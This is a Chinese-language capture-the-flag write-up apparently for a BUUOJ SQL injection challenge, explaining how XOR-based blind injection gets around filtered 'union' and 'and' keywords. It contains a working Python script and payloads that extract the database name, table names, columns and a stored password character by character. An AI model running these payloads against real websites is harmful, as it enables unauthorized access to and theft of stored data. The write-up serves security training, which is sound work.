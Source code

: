 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-31
---
```


## 思路

1. 打开网页观察页面内容如下，可以看到有一个登录框，还有一个1~5的列表可以点击。

   说明本题可以从两个角度进行sql注入。

   登录的链接为：check.php?username=123&password=123

   点击数字的链接为：search.php?id=1

<img src="../images/image-20201231143221010.png" alt="image-20201231143221010" style="zoom: 25%;" />

2. 先从最常规的万能密码对登录框进行尝试

3. 对点击数字的链接进行尝试（而且题目中也提示了“选择正确神秘代码即可获得flag”）

   search.php?id=1^1^1和search.php?id=1结果一样，说明我们可以尝试使用**异或**进行注入，使用下面的脚本进行测试：

   > 当我们在尝试SQL注入时,发现union,and被完全过滤掉了,就可以考虑使用异或注入
   >
   > 异或运算规则：
   >
   > 1^1=0 0^0=0 0^1=1
   >
   > 1^1^1=1  1^1^0=0

   ```python
   # -*- coding: utf-8 -*-
   url = 'http://70f6bc6d-6862-4615-8b83-fb7267cc42fb.node3.buuoj.cn/search.php?id='
   i = 0
   flag = ''
   while True:
       i += 1
       # 从可打印字符开始
       begin = 32
       end = 126
       tmp = (begin + end) // 2
       while begin < end:
           print(begin, tmp, end)
           time.sleep(0.1)
           # 爆数据库
           # geek
           # payload = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, tmp)
           # 爆表
           # F1naI1y,Flaaaaag
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.tables)where(TABLE_SCHEMA=database())),%d,1))>%d)^1" % (i, tmp)
           # 爆字段
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)^1" % (i, tmp)
           # 爆flag 要跑很久
           # payload = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, tmp)
           # 爆flag 很快
           payload = "1^(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)^1" % (i, tmp)
           # 错误示例
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(fl4gawsl))from(Flaaaaag)),%d,1))>%d)^1" % (i, tmp)
   
           r = requests.get(url+payload)
           if 'Click' in r.text:
               begin = tmp + 1
               tmp = (begin + end) // 2
           else:
               end = tmp
               tmp = (begin + end) // 2
   
       flag += chr(tmp)
       print(flag)
       if begin == 32:
           break
   
   ```

   

## 总结

此题可以结合 [GYCTF2020Ezsqli]([GYCTF2020]Ezsqli.md) 练习

